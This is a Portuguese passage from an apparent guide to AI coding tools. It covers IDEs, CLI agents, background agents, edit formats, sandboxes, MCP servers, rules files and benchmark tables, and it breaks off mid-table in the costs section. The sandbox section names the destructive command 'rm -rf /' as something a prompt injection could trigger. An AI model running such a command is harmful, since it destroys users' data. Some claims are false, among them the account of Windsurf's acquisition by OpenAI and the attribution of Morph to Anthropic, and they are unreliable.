Lançada em **18 de novembro de 2025** em *public preview* (gratuita durante o preview), Antigravity é a aposta do Google em "IDE *agent‑first*" — tudo que existe é desenhado em torno do agente.

### 6.1. Anatomia

- **Editor View**: IDE clássica (baseada em VS Code), com *tab completion* e edits inline.
- **Manager Surface (Manage tab)**: console para **orquestrar múltiplos agentes em paralelo**, cada um em seu *workspace* isolado. Você é controlador de tráfego aéreo.
- **Browser tool nativo**: agente controla o **Chrome** diretamente (login, formulários, scraping, validação visual).
- **Artifacts**: em vez de mostrar logs brutos de tools, agente entrega *task lists*, *implementation plans*, *screenshots*, *browser recordings* — você revisa o **resultado**, não o processo.

### 6.2. Modelos suportados

- **Gemini 3 Pro** (primary, 1M+ tokens de contexto)
- **Claude Sonnet 4.5**
- **GPT‑OSS** (modelo aberto da OpenAI)
- *Multi‑model optionality* com rate limits generosos no preview.

### 6.3. Performance (autorreportada)

- **76,2% em SWE‑bench Verified** (versão como sistema; modelo isolado varia).
- Versão 1.20.6 (mar/2026) ganhou **MCP integrations** completas e *terminal sandboxing*.

### 6.4. Quando vale (e quando não)

| Cenário | Recomendação |
|---|---|
| Tarefas paralelas (ex.: 5 *bug fixes* independentes) | ✅ Manager tab brilha |
| Validação de UI / E2E real (login, fluxo de checkout) | ✅ Browser nativo |
| Equipe Google Cloud (Vertex, BigQuery, GKE) | ✅ Tendência de integração |
| Colaboração em tempo real | ❌ Zed/Cursor são melhores |
| Fluxo "*single deep agent*" simples | ❌ Cursor/Claude Code são mais leves |
| Privacy crítica (código fechado para Google) | ⚠️ Avaliar termos do *preview* |

---

## 7. Windsurf (Codeium → OpenAI)

Adquirida pela **OpenAI em 2025** (após uma oferta da Anthropic ter sido rejeitada). Mantém marca Windsurf, integração apertando com modelos OpenAI.

### 7.1. Diferenciais

- **Cascade**: modo agentic com *flow awareness* — o agente entende em qual arquivo você está olhando e adapta sugestões.
- **Tab predictions**: além de completar texto, prevê **próximo arquivo** que você vai abrir e **próximo paste**.
- **SWE‑1**: modelo proprietário Codeium (legado), agora coexiste com **GPT‑5.x/Codex** e **Claude**.
- **Memory** project‑level, com *write‑back* automático após sessões.
- **Free tier** historicamente generoso (Codeium foi pioneira em ofertas grátis para devs individuais; pós‑aquisição, status pode mudar — verificar).

### 7.2. Comparação rápida com Cursor

| Aspecto | Cursor | Windsurf |
|---|---|---|
| Modelo *in‑house* | Composer‑2 | SWE‑1 (legado) |
| Tab autocomplete | Cursor Tab (excelente) | Tab predictions (também excelente, com previsão de próximo arquivo) |
| Background agents | ✅ Cloud Agents | Limitado |
| Pricing | \$20–\$200 | Free generoso + paid |
| MCP | First‑class | Suporte crescente |
| Foco | "*power user*" + indie | Mainstream + enterprise |

---

## 8. Zed e o Agent Panel

Zed é o editor escrito em **Rust** com performance nativa (sub‑16ms latency em todo input). Agent Panel introduzido em 2024 trouxe agentes *first‑class*.

### 8.1. Características

- **Modelos**: Claude (default), GPT, **Anthropic Computer Use** integrado.
- **MCP nativo** (sem plugin separado).
- **Multibuffer**: visualizar múltiplos *diffs* simultaneamente — perfeito para revisar agente.
- **Collaborative real‑time** (heritage do "Atom team"): você + colegas + agente no mesmo *buffer*.
- **Foco**: programadores que valorizam latência e ergonomia "tipo Vim" + agentes modernos.

### 8.2. Quando escolher Zed

- Você é um *power user* que quer Vim‑like + agentes.
- Você odeia *bloat* do VS Code/Electron.
- Você programa em Rust/Go/TS e curte LSP de qualidade.
- Você não precisa do ecossistema de extensões enorme do VS Code.

---

## 9. VS Code primeira‑classe (Copilot, Workspace, Agent Mode)

A Microsoft respondeu à onda Cursor/Antigravity com:

### 9.1. Surfaces 2025‑2026

| Surface | O que faz |
|---|---|
| **Copilot Chat** | Chat lateral, multi‑arquivo |
| **Copilot Edits** | Edits coordenados em vários arquivos com revisão |
| **Copilot Agent Mode** (2025) | Agente nativo com bash, edit, plan |
| **Copilot Workspace** | Planejamento *PR‑level*: spec → plan → impl → review |
| **Copilot Spaces** | "Bundles" de contexto persistente (docs + arquivos + URLs) |
| **Copilot Coding Agent** | Background agent que resolve *issues* do GitHub sozinho |

### 9.2. Modelos

- Claude 4.x Sonnet, Claude Opus 4.7
- GPT‑5.x, GPT‑5 Codex
- Gemini 3.x
- Modelos MS proprietários (incluindo *small models* para autocomplete)

### 9.3. Configuração via `.github/copilot-instructions.md`

```markdown
# Copilot instructions for this repo

This is a Python 3.12 project using FastAPI + SQLAlchemy 2.

## Style
- Type hints obrigatórios em todas funções públicas.
- Docstrings no estilo Google.
- Use `ruff` para lint, `black` para formato.

## Test
- Pytest + pytest-asyncio.
- Cobertura mínima 80%.
- Mock externos com `respx`.

## DB
- Migrations via Alembic.
- Não escreva SQL raw fora de `db/queries.py`.
```

---

## 10. Extensões agentes para VS Code: Cline, Continue, Roo Code

Para quem **não quer trocar de IDE** mas quer agentes modernos:

| Extensão | Origem | Foco | Modelos | MCP | Licença | Ano |
|---|---|---|---|---|---|---:|
| **Cline** | Saoud Rizwan (ex‑Claude Dev) | Agente full‑featured: read, write, exec, browser | Claude, GPT, Gemini, OpenRouter | ✅ Nativo | Apache 2.0 | 2024 |
| **Continue** | Continue.dev (open‑source) | Customizável; foco em "construir seu próprio assistant" | Multi (config) | ✅ | Apache 2.0 | 2023 |
| **Roo Code** | Fork de Cline | Cline + features extras (modos, prompts) | Multi | ✅ | Apache 2.0 | 2024 |
| **Aider extension** | Wrap do CLI | Aider rodando dentro do VS Code | Multi | Limitado | Apache 2.0 | 2024 |
| **CodeCompanion.nvim** | Olimorris | Equivalente para Neovim | Multi | ✅ | MIT | 2024 |
| **Avante.nvim** | Comunidade | Outro Neovim agent | Multi | Parcial | MIT | 2024 |
| **GitHub Copilot** (extensão original) | Microsoft | Autocomplete + chat + agent mode | Multi | ✅ | Proprietária | 2021 |

### 10.1. Cline — o agent autônomo dentro do VS Code

Lançado em abr/2024 como **Claude Dev** (renomeado em ago/2024), foi o primeiro a mostrar que **agente autônomo dentro do VS Code é viável**:

- Tools: read, write, edit, **execute_command** (com aprovação humana inicial), **browser_action** (Puppeteer interno), **MCP**.
- *Plan/Act mode* separados (planejar antes de tocar).
- *Auto‑approve* configurável por tipo de tool (modo seguro vs *yolo*).
- Suporte a **contexto via @file, @folder, @git, @terminal, @url**.
- Cost tracking embutido (mostra \$/sessão).

### 10.2. Continue — *open‑source* customizável

Mais "biblioteca" do que "produto":

- `config.yaml` permite definir modelos, providers, *slash commands*, *context providers*, *prompts*.
- Maior flexibilidade que Cline para integrar **modelos locais** (Ollama, vLLM).
- Suporte a *embedding* local para *RAG*.
- Comunidade ativa, ritmo de release alto.

### 10.3. Roo Code — fork pragmático

- **Modes** (Architect, Code, Debug, Ask): cada modo tem prompts e tools próprios.
- *Boomerang tasks* (subagentes que voltam com resultado).
- *Custom rules* por modo.
- Tendência a "se afastar" do upstream Cline.

---

## 11. CLI agents: Aider, Claude Code, Codex CLI, OpenCode, Goose, Crush, gptme

A volta dos *CLI tools* foi um dos movimentos mais surpreendentes de 2024‑2026. Devs *seniores* descobriram que **terminal + LLM + git** entrega 80% do valor de uma IDE com 10% da complexidade.

### 11.1. Aider — o pioneiro (Paul Gauthier, 2023+)

```bash
# Instalar
pip install aider-chat

# Iniciar com Claude
aider --model anthropic/claude-sonnet-4-5 src/auth.py src/users.py

# /architect: usa modelo "planner" separado
aider --architect --model openai/gpt-5 --editor-model openai/gpt-5-codex

# Repo-map enhanced (PageRank + tree-sitter)
aider --use-enhanced-map

# Auto-commit por mudança (default)
# Cada edit do agente vira um commit Git assinado: "aider: refactor auth"
```

**Diferenciais**:
- **Repo‑map** com PageRank + tree‑sitter (§4.3).
- **Edit formats** múltiplos: `udiff`, `whole`, `search-replace`, `editor-diff`. Aider Polyglot Benchmark mediu impacto: `search-replace` é mais robusto.
- **`/architect` mode**: usa um modelo forte para planejar e um modelo "*editor*" (mais barato/rápido) para aplicar.
- **Git‑native**: cada mudança vira commit; conflitos resolvidos via `git stash`/`git apply`.
- **Sem *vendor lock‑in***: configura qualquer provider via `--model`.

### 11.2. Claude Code (Anthropic, 2025+) — o "AI OS"

Em 2026 a Anthropic vende Claude Code como **"AI Operating System"**, com 4 pilares:

| Pilar | O que é |
|---|---|
| **Skills** | Markdown em `~/.claude/skills/` ou `.claude/skills/` do projeto. Carregado automaticamente por contexto. ~2.000 tokens para 50 skills. |
| **Hooks** | Reflexos automáticos em eventos (`PreToolUse`, `PostToolUse`, `SessionStart`, `SessionEnd`). Em `~/.claude/settings.json`. |
| **MCP** | First‑class, com *per‑agent scoping* em discussão para 2026 (60‑90% redução de overhead). |
| **Subagents** | Sessões Claude paralelas e isoladas. Tipos built‑in: `Explore` (read‑only Haiku), `Bash`, `Plan`, `general‑purpose`. |

**Sessão típica**:

```bash
claude  # abre TUI no diretório atual

> Refatore o módulo auth para usar JWT em vez de session cookies. Mantenha
  compatibilidade durante transição. Adicione testes.

# Claude Code:
# 1. Lê CLAUDE.md (instruções do projeto)
# 2. Lê estrutura do projeto (Glob, list_dir)
# 3. Lê src/auth/*.py (read_file)
# 4. Cria TODO (todo_write)
# 5. Edita (edit, multi_edit)
# 6. Roda testes (bash: pytest tests/auth/)
# 7. Lê erros, corrige, re-roda
# 8. Pede confirmação para commit
```

**Skill exemplo** (`~/.claude/skills/test-driven/SKILL.md`):

```markdown
---
description: Test-Driven Development workflow. Use when user requests TDD,
  red-green-refactor, ou quando trabalhar em código novo crítico.
---

# Test-Driven Development

1. RED: escrever teste que falha
2. GREEN: código mínimo para passar
3. REFACTOR: melhorar mantendo verde

## Comandos
- pytest -xvs path/test_file.py::test_name
```

### 11.3. Codex CLI (OpenAI, 2025) — *open‑source*

Rebrand do Codex original (2021). Lançado *open‑source* em 2025:

```bash
# Install
brew install codex   # ou via npm: npm i -g @openai/codex-cli

# Sessão
codex
> Crie um endpoint POST /users com validação Zod e teste em jest.

# Apply patches no formato Codex (compatível com git apply)
# Multi-model via --model flag, MCP via mcp.json
```

**Pontos**:
- *Open‑source* no GitHub (`openai/codex-cli`).
- Multi‑model (default GPT‑5 Codex, mas aceita Claude, Gemini via plugins).
- MCP support nativo.
- Formato `apply_patch` = `git apply` compatível.

### 11.4. OpenCode (SST, 2025‑2026) — multi‑provider

```bash
brew install sst/tap/opencode

opencode auth login   # configura providers (75+)
opencode              # inicia TUI
opencode run "fix the bug in src/auth.py"
opencode mcp add filesystem
opencode github install
```

**Diferenciais**:
- **75+ providers** (use sua chave Anthropic, OpenAI, GitHub Copilot, Claude Pro, Gemini, OpenRouter, Bedrock, Ollama local…).
- Agentes built‑in: **Build** (full tools), **Plan** (read‑only), **General** (research), **Explore** (read‑only fast).
- TUI rica com *Mission Control* e *Git‑backed Session Review* (revisar diffs antes de aplicar).
- `@mentions` para invocar subagentes.
- **GitHub Actions integration** (`opencode github install`).

### 11.5. Goose (Block, 2024) — MCP‑first

- Open‑source, criado pela Block (Square/Cash App).
- **MCP‑first**: design todo girado em torno de MCP servers como tools.
- TUI + desktop app.
- Receitas pré‑prontas para *workflows* comuns.

### 11.6. Crush (Charm.sh, 2025) — TUI rica

- Construído com **Bubble Tea** (Charm).
- Visual rico, foco em **UX de terminal**.
- Multi‑model, MCP, *snippets* persistentes.
- Para quem ama TUIs como Lazygit, k9s, gh.

### 11.7. gptme, AutoCode, MetaGPT‑CLI, charmbracelet/crush, charmbracelet/mods…

A "*long tail*" de CLI agents é grande:
- **gptme** (gptme.org): minimalista, *self‑hosted*.
- **mods** (Charm): *one‑shot* prompt no terminal.
- **AutoCode** / **MetaGPT‑CLI**: focados em geração de projetos completos.

### 11.8. Tabela master — CLI agents 2026

| CLI | Lic | MCP | Multi‑model | Repo‑map | Git auto | TUI | Foco |
|---|---|:--:|:--:|:--:|:--:|:--:|---|
| **Aider** | Apache 2.0 | Parcial | ✅ | ✅ (PageRank) | ✅ | Texto puro | Pioneiro, git‑native |
| **Claude Code** | Proprietária | ✅ Nativo | ❌ (Claude only) | Limitado | Manual | Rica | "AI OS", canonical Anthropic |
| **Codex CLI** | Apache 2.0 | ✅ | ✅ | Limitado | Manual | Texto | OpenAI canonical |
| **OpenCode** | MIT | ✅ Nativo | ✅ (75+) | Médio | ✅ Git review | Rica | Multi‑provider |
| **Goose** | Apache 2.0 | ✅ Nativo | ✅ | Limitado | Manual | Rica | MCP‑first |
| **Crush** | MIT | ✅ | ✅ | Limitado | Manual | Muito rica | UX terminal |
| **gptme** | MIT | Parcial | ✅ | Não | Manual | Texto | Minimalista |
| **mods** | MIT | ❌ | ✅ | Não | — | Pipe | One‑shot |

---

## 12. Background agents

Agentes que **rodam por minutos a horas**, em VM isolada, sem você assistir cada *token*. Você dá um *issue*, vai tomar café, volta, revisa o PR.

| Tool | Lançamento | Autonomy | Sandbox | Custo (2026) | Niche |
|---|---|---|---|---|---|
| **Devin** (Cognition) | mar/2024, v2 abr/2025 | Alta | VM dedicada + browser | \$20 Pro / \$200 Max / Teams \$80+ | Issue → PR fim‑a‑fim |
| **Replit Agent v2/Agent 3** | 2024‑2025 | Alta | Replit Nix container | \$15‑25 + agent extra | Build apps from scratch in browser |
| **Cursor Background Agents** | 2025 | Média‑alta | Cursor cloud sandbox | Inclus. em Ultra/Max | Tarefas longas dentro do Cursor |
| **GitHub Copilot Coding Agent** | 2025 | Alta | GitHub Actions runners | Pago via Copilot Enterprise | Issues do GitHub |
| **Lovable** (ex‑GPT Engineer) | 2024 | Alta | Container hospedado | \$20‑\$80+ | Full‑stack web apps |
| **Bolt.new** (StackBlitz) | 2024 | Média | WebContainer (browser) | Free + créditos | Frontend rápido |
| **v0** (Vercel) | 2023‑ | Média | Browser preview + Vercel deploy | Free + créditos | UI/React focused |
| **Magic Patterns** | 2024 | Média | Browser | Free + créditos | UI mockup → React |
| **Tempo Labs** | 2024 | Média | Browser | Pago | Visual builder + agente |

### 12.1. Devin 2.0 (Cognition, abr/2025) e o pricing 2026

Devin foi o agente mais polêmico de 2024 — anúncio com vídeo polido, teste real revelando *cherry‑pick*. Devin 2.0 (abr/2025) trouxe IDE *agent‑native* com sessões paralelas, *Devin Search*, **DeepWiki** (catálogo de conhecimento do repo).

**Pricing abr/2026** (após reformulação):

| Plano | Preço/mês | Inclui |
|---|---:|---|
| Free | \$0 | Acesso limitado para começar |
| Pro | \$20 | Quota incluída |
| Max | \$200 | Quota grande |
| Teams | \$80 mín. | Usage‑based |
| Enterprise | Custom | — |

> **Mudança 2026**: produtos antes gratuitos (Ask Devin, DeepWiki, Devin Review) viraram *usage‑based*. Usuários antigos: Core → Free, Team → novo Teams.

### 12.2. Cursor Background Agents

Cloud sandboxes acessíveis pelo Cursor:
- Você dispara uma tarefa ("implementar feature X com testes").
- O agente roda em VM isolada por 5‑60 min.
- Volta com PR/branch para você revisar.
- Permite *parallel runs* (3‑10 agentes simultâneos).

### 12.3. Quando vale background agent

| Caso | Background agent? |
|---|:--:|
| Refactor mecânico em 30 arquivos | ✅ |
| Adicionar testes ausentes em módulo | ✅ |
| Migration de framework (Vue 2 → Vue 3) | ✅ |
| Resolver 10 *tickets* de bugfix simples | ✅ Paralelo |
| Decisão arquitetural crítica | ❌ HITL |
| Código que toca *secrets* / segurança | ❌ HITL |
| Exploração ("não sei o que quero") | ❌ Use chat |

---

## 13. Taxonomia: tipos de coding tools



### 13.1. Tabela completa por categoria

| Categoria | Latência típica | Autonomy | Casos de uso |
|---|---|---|---|
| **Inline autocomplete** | <100 ms | Mínima | Boilerplate, *next token* |
| **Chat side panel** | 1‑10 s | Baixa | Dúvida, snippet, refactor pontual |
| **Agent mode in IDE** | 5‑60 s | Média | Tarefa multi‑arquivo com revisão *inline* |
| **CLI agents** | 5‑60 s | Média‑alta | Power users, automação, scripts |
| **Background autonomous** | 5‑60 min | Alta | Issue → PR sem supervisão |
| **PR review automation** | 1‑5 min | Média | Code review, quality gate |
| **AI‑native IDE** | Varia | Varia | Stack completa em torno do agente |

---

## 14. Edit formats — o detalhe técnico que decide tudo

Como o agente entrega "*aqui está a mudança*"? **Decide a taxa de erro**, a latência e o custo.

### 14.1. Formatos canônicos

| Formato | Como funciona | Prós | Contras | Taxa erro típica |
|---|---|---|---|---|
| **Whole file write** | LLM escreve o arquivo inteiro | Simples, atômico | Custo ~5‑10× maior; risco de regressão | Baixa |
| **Unified diff (udiff)** | LLM gera `@@ ... @@` hunks | Compacto | LLMs erram em *line numbers* e *context* | Alta (10‑30%) |
| **Search/Replace block** | LLM emite `<<<<<<< SEARCH ... ======= ... >>>>>>> REPLACE` | Robusto, fácil aplicar | Bloco precisa ser único no arquivo | Baixa (2‑5%) |
| **MultiEdit** | Lista de `{old, new}` aplicada atomicamente | Cirúrgico, rápido | Falha se `old` não único | Baixa |
| **Apply model** | LLM forte gera "intenção", modelo pequeno aplica | Latência baixa | Dependente do *apply model* | Baixa (~1‑3%) |
| **AST‑based** | Parse + transform na AST | Determinístico | Custo de implementação alto | Quase 0 (mas raro em prod) |

### 14.2. Search/Replace block (Aider / Cline / Cursor)

```
src/auth.py
<<<<<<< SEARCH
def login(username, password):
    user = db.get_user(username)
    if user and user.password == password:
        return create_session(user)
    return None
=======
def login(username: str, password: str) -> Token | None:
    user = db.get_user(username)
    if user and bcrypt.checkpw(password.encode(), user.password_hash):
        return create_session(user)
    return None
>>>>>>> REPLACE
```

Vantagem: **um único `str.replace()`** aplica. Se `SEARCH` não bate exatamente, o agente recebe erro "*search not found*" e tenta de novo (com `read_file` para resincronizar).

### 14.3. MultiEdit (Cursor, Claude Code)

```json
{
  "tool": "multi_edit",
  "input": {
    "edits": [
      {
        "path": "src/auth.py",
        "old_string": "def login(username, password):",
        "new_string": "def login(username: str, password: str) -> Token | None:"
      },
      {
        "path": "src/auth.py",
        "old_string": "if user and user.password == password:",
        "new_string": "if user and bcrypt.checkpw(password.encode(), user.password_hash):"
      }
    ]
  }
}
```

### 14.4. Aider Polyglot Benchmark

Paul Gauthier mantém o **Aider Polyglot Benchmark**, que mede taxa de sucesso por *edit format* × modelo. Resultados consistentes:

- `search-replace` > `udiff` > `whole-file` em modelos *frontier*.
- Modelos pequenos preferem `whole-file` (não erram em *hunks*).
- Modelos *frontier* (GPT‑5, Claude 4.x, Gemini 3.x) brilham em `search-replace`.

---

## 15. Apply model — speculative editing

### 15.1. O conceito

Você tem dois modelos:

1. **Planner LLM** (forte, lento, caro): GPT‑5, Claude Opus 4.7, Gemini 3.1 Pro.
   - Lê o código, raciocina, **descreve** a mudança em linguagem natural ou pseudo‑diff.
2. **Apply model** (pequeno, rápido, barato): modelo dedicado a aplicar a intenção.
   - Lê arquivo original + descrição → produz arquivo modificado.



### 15.2. Implementações reais

| Stack | Apply model | Latência típica |
|---|---|---|
| **Cursor** | Modelo *in‑house* derivado de Composer | 100‑500 ms |
| **Anthropic Morph** | "Fast Apply" model (~1.5B params, dedicado) | 200‑400 ms |
| **HyperWrite Apply** | Pequeno modelo treinado para apply | 300‑600 ms |
| **Continue** (config) | Configurável (use Mistral 7B local, p.ex.) | 500‑1500 ms |

### 15.3. Vantagem prática

Sem apply model: planner regenera arquivo inteiro (5‑30 s, \$0.05‑\$0.20).
Com apply model: planner descreve mudança (2‑5 s, \$0.01‑\$0.05) + apply (200 ms, \$0.001).

**Total**: ~3 s vs ~20 s. Para uma sessão com 50 edits, é a diferença entre **2,5 minutos** e **17 minutos** só esperando.

---

## 16. Sandboxes para coding agents

Agentes que rodam código precisam de **isolamento** — caso contrário, `rm -rf /` está a um *prompt injection* de distância.

| Sandbox | Snapshot speed | GPU | Networking | Pricing | Quem usa |
|---|---|:--:|---|---|---|
| **e2b.dev** | <1 s (Firecracker microVM) | Não (preview) | Configurável | Free + paid | Devin (parcial), startups |
| **Modal sandboxes** | 1‑3 s | ✅ | Sim | Pay‑per‑sec | ML/LLM apps |
| **Daytona** | 1‑5 s | ✅ | Sim | Self‑host + cloud | Workspaces de dev |
| **Devin VM** | 5‑15 s | Limitado | Sim | Incluso no plano | Devin |
| **Cursor Cloud Sandbox** | 2‑8 s | Limitado | Sim | Incluso em Ultra/Max | Cursor BG Agents |
| **Replit Nix containers** | 1‑5 s | Limitado | Sim | Incluso no plano | Replit Agent |
| **Anthropic Computer Use Docker** | 5‑20 s | Não | Sim | Self‑host | Claude Computer Use |
| **GitHub Codespaces** | 30‑90 s | Limitado | Sim | Pago | DevContainers |
| **Antigravity sandbox** | <5 s | Não anunciado | Sim | Free no preview | Antigravity |

### 16.1. Por que Firecracker (e2b)

- Boot em **<150 ms** (vs ~3 s do Docker).
- **VM real** (não container) — isolamento de kernel.
- *Snapshot* permite "*forking*" do estado.
- Usado por AWS Lambda por baixo dos panos.

### 16.2. Computer Use (Anthropic)

Docker reference: agente recebe screenshots do desktop e produz **mouse_click(x, y)**, **keyboard_type(text)**, **screenshot()**. Permite agente operar **qualquer app** (não só CLI/IDE). Usado em Antigravity (browser tool) e Cursor (preview).

---

## 17. Verifiers e self‑correction

A "magia" de coding agents é o **loop de verificação automática**.

### 17.1. Oráculos disponíveis

| Verifier | Custo | Velocidade | Sinal |
|---|---|---|---|
| **Compiler** (`tsc`, `cargo check`, `javac`) | Baixo | 1‑30 s | Ouro: type errors precisos |
| **Tests** (`pytest`, `jest`, `go test`) | Médio | 1 s‑10 min | Ouro: comportamento real |
| **Lint** (`ruff`, `eslint`, `clippy`) | Baixo | <5 s | Médio: estilo e bugs comuns |
| **Type‑check** (`mypy`, `pyright`, `tsc`) | Médio | 5‑60 s | Alto: contratos preservados |
| **Build** (`vite`, `webpack`, `gradle`) | Alto | 10 s‑10 min | Alto: deployable? |
| **LSP diagnostics** | Baixíssimo | <1 s (incremental) | Médio: erros em tempo real |
| **Runtime smoke test** (`curl /health`) | Baixo | <5 s | Alto: app sobe? |
| **E2E test** (Playwright) | Alto | 30 s‑10 min | Ouro: fluxo completo funciona |

### 17.2. Edit‑verify loop com LSP — pseudocódigo

```python
def edit_verify_loop(agent, file, instruction, max_iters=10):
    history = []
    for i in range(max_iters):
        # 1. Agent lê + edita
        plan = agent.plan(instruction, file_content=read(file), history=history)
        new_content = agent.apply(plan, file)
        write(file, new_content)

        # 2. LSP diagnostics (instantâneo, incremental)
        lints = lsp.diagnostics(file)
        if lints:
            history.append({"role": "tool", "name": "lsp", "content": lints})
            continue

        # 3. Type check (rápido)
        tc = run("tsc --noEmit")
        if tc.exit_code != 0:
            history.append({"role": "tool", "name": "tsc", "content": tc.stderr})
            continue

        # 4. Tests do arquivo afetado
        tests = run(f"pytest tests/test_{basename(file)}")
        if tests.exit_code != 0:
            history.append({"role": "tool", "name": "pytest", "content": tests.stdout})
            continue

        # 5. Sucesso
        return True

    return False  # estourou max_iters
```

### 17.3. Por que isso é tão poderoso

Cada *verifier* é um **oráculo gratuito** que dá *feedback estruturado*. Compare com agentes em domínios "soft" (escrita, vendas, *customer success*): lá o sinal de "está bom?" depende de humano avaliar, em horas/dias. Em código, é segundos.

É exatamente por isso que SWE‑bench saltou de 4% → 80%: cada *frontier model* novo aprende a **usar tests como recompensa** durante RL, e em produção o *loop* refina até verde.

---

## 18. MCP em coding (cross‑link Post 14)

O *Post 14* explica MCP em detalhe. Aqui o foco é: **quais MCP servers fazem diferença em coding**.

| MCP Server | Função | Hosts compatíveis |
|---|---|---|
| **`@modelcontextprotocol/server-filesystem`** | Read/write de arquivos com escopo controlado | Todos |
| **`@modelcontextprotocol/server-git`** | Git ops (status, diff, log, blame, branch) | Todos |
| **`@modelcontextprotocol/server-github`** | Issues, PRs, comments, search via API | Todos |
| **`@modelcontextprotocol/server-postgres`** | Query Postgres (schema introspection + SQL) | Todos |
| **`@modelcontextprotocol/server-sqlite`** | SQLite local | Todos |
| **`@modelcontextprotocol/server-puppeteer`** | Browser automation | Todos |
| **`@playwright/mcp`** | Playwright (mais robusto que Puppeteer) | Todos |
| **`server-sequential-thinking`** | Forçar passos de raciocínio | Todos |
| **`server-fetch`** | Fetch HTTP genérico | Todos |
| **Custom MCPs** | Específicos do projeto/empresa | Cursor, Claude Code, Codex CLI, OpenCode, Goose, Continue |

### 18.1. Exemplo: servidor MCP simples para *coding context*

```python
from mcp.server.fastmcp import FastMCP
from pathlib import Path
import subprocess

mcp = FastMCP("project-context")

@mcp.tool()
def project_skeleton(root: str = ".") -> str:
    """Retorna skeleton (signatures) do projeto via tree-sitter."""
    result = subprocess.run(
        ["tree-sitter", "tags", root, "-c", "function,class,method"],
        capture_output=True, text=True
    )
    return result.stdout

@mcp.tool()
def open_issues(label: str | None = None) -> list[dict]:
    """Lista issues abertos do GitHub do projeto."""
    cmd = ["gh", "issue", "list", "--json", "number,title,body"]
    if label:
        cmd.extend(["--label", label])
    return subprocess.run(cmd, capture_output=True, text=True).stdout

@mcp.tool()
def db_schema() -> str:
    """Schema atual do banco (introspection)."""
    return subprocess.run(
        ["psql", "-d", "myapp_dev", "-c", "\\d+"],
        capture_output=True, text=True
    ).stdout

if __name__ == "__main__":
    mcp.run()
```

Plugado no Cursor (`~/.cursor/mcp.json`) ou Claude Code (`~/.claude/mcp.json`):

```json
{
  "mcpServers": {
    "project-context": {
      "command": "python",
      "args": ["/path/to/server.py"]
    }
  }
}
```

---

## 19. Rules, instructions, memórias: AGENTS.md, CLAUDE.md, .cursorrules

### 19.1. Convergência em AGENTS.md

Em 2025‑2026 a indústria convergiu informalmente para um **padrão *cross‑tool*** chamado **AGENTS.md** — Markdown na raiz do repo, lido automaticamente por Cursor, Claude Code, OpenCode, Codex CLI, Continue.

| Arquivo | Tool | Status |
|---|---|---|
| `AGENTS.md` | **Cross‑tool** (Cursor, Claude Code, OpenCode, Codex CLI…) | **Padrão emergente** |
| `.cursorrules` | Cursor (legado) | Sendo migrado para AGENTS.md |
| `CLAUDE.md` | Claude Code | Suportado, alias para AGENTS.md em 2026 |
| `.github/copilot-instructions.md` | GitHub Copilot | Específico, mas conteúdo parecido |
| `.windsurfrules` | Windsurf | Específico |
| `.continue/rules` | Continue | Customização avançada |

### 19.2. Boas práticas

- **Específico > genérico**: "Use `pnpm` não `npm`" > "use boas práticas".
- **Ações concretas**: "Antes de commitar, rode `pnpm typecheck`".
- **Comandos prontos**: copy‑paste do `pnpm test` correto.
- **Contra‑exemplos**: "**Não** crie arquivos `*.test.ts` na raiz".
- **Versão**: AGENTS.md vai pro Git. Trate como código.
- **Curto**: <300 linhas. Rules muito longas reduzem efeito (modelo "esquece" itens do meio).
- **Evitar conflitos**: se você tem `AGENTS.md` E `.cursorrules`, simplifique — escolha um.

### 19.3. Memory systems

- **Cursor Memories**: o agente "lembra" coisas entre sessões (ex.: "este projeto usa X", "sempre rodar Y antes de Z"). Armazenado por projeto.
- **mem0** (open‑source): camada de memória plugável em qualquer agente, com *embedding* + decay.
- **Claude Code memory**: skills + CLAUDE.md + memory de sessão.
- **Continue rules + system messages**: personalizável.

> **Cuidado**: memory é *power tool* — se mal calibrado, vira "*echo chamber*" (agente reforça erros antigos). Revise periodicamente.

---

## 20. Eval de coding agents

### 20.1. Benchmarks principais

| Benchmark | Fonte | Mede | Top score 2026 |
|---|---|---|---|
| **SWE‑bench** | Princeton (Jimenez et al., 2023) | Resolver issues GitHub reais | ~80% (variantes) |
| **SWE‑bench Verified** | OpenAI (curated subset 500) | Mesmo, validado por humanos | **93,9%** (Claude Opus 4.7) |
| **SWE‑bench Live** | Continuamente atualizado | Anti‑contaminação | ~50‑70% |
| **SWE‑bench Multimodal** | + screenshots | Bug fixing visual | ~40‑60% |
| **TerminalBench** | CMU | Tarefas de terminal multi‑step | ~60% (top) |
| **Terminal‑Bench 2.0** | CMU/Cursor | Versão refinada | 61.7 (Composer‑2), maior topo |
| **CursorBench** | Cursor (interno+pub) | Tarefas reais de IDE | 61.3 (Composer‑2) |
| **Aider Polyglot Benchmark** | Aider | Edit em múltiplas linguagens | ~85% (top models) |
| **HumanEval** | OpenAI 2021 | 164 funções Python | >95% (saturado) |
| **MBPP** | Google 2021 | ~1000 problemas básicos | >95% (saturado) |
| **LiveCodeBench** | Atualizado mensal | Anti‑contaminação | ~85% (top) |
| **NoCha** | Long‑context coding narrativo | Code com contexto longo | ~40‑60% |
| **CodeContests** | DeepMind | Algorítmico (Codeforces‑level) | ~30‑50% |
| **APPS** | Hendrycks | Algorítmico graded | ~70% (top) |
| **BIRD‑bench** | NL → SQL | Real DB queries | ~70% (top) |

### 20.2. Top SWE‑bench Verified abr/2026

Já vimos no §1.2. Recapitulando o pódio:

| # | Modelo / Sistema | Score | Org |
|---:|---|---:|---|
| 1 | Claude Opus 4.7 | 93.9% | Anthropic |
| 2 | Claude Opus 4.6 | 87.6% | Anthropic |
| 3 | Claude Opus 4.5 | 80.9% | Anthropic |
| 4 | Gemini 3.1 Pro | 80.6% | Google |
| 5 | Minimax M 2.5 | 80.2% | MiniMax |
| 6 | GPT‑5.2 | 80.0% | OpenAI |
| 7 | Claude Sonnet 4.6 | 79.6% | Anthropic |
| 8 | Gemini 3 Flash / Pro | 78.0% | Google |
| 9 | GLM 5 | 77.8% | Z.ai |
| 10 | Antigravity (Gemini 3 Pro) | 76.2% | Google (sistema) |

> **Cuidado de sempre**: SWE‑bench tem **contaminação** (modelos viram os repos no pretraining). Por isso *Verified* + *Live* + *Multimodal* coexistem. Use o *aggregate*, não um número isolado.

### 20.3. Como medir o **seu** uso (não os benchmarks)

Benchmarks medem capacidade média. Para *você*, o que importa:

1. **Time‑to‑PR** em tarefas reais do seu repo (cronometre).
2. **Taxa de PR aceito sem revisão** (= autonomia útil real).
3. **Tokens / feature** (custo).
4. **% retrabalho** (você teve que refazer?).
5. **Bugs em produção** atribuíveis a código de agente.

---

## 21. Custos e ROI

### 21.1. Pricing 2026 — visão geral

| Tool | Pricing | Modelo de cobrança |
|---|---|---|
